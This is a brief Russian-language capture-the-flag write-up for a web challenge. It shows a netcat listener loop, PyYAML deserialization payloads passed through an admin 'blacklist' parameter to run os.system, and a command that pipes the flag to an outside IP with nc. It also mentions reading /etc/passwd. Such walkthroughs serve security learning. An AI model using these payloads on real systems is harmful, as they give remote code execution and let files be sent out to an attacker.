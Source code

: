 1. Смотрим, какие проверки делает сайт и направляем его на наш сервер http://b121.ctf2019.rocks/integration/89.163.129.121. 
Смотрим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из библиотеки urllib3 
питона.

3. Находим адимнку. Проверям как сайт реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что он падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в биклиотеке pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd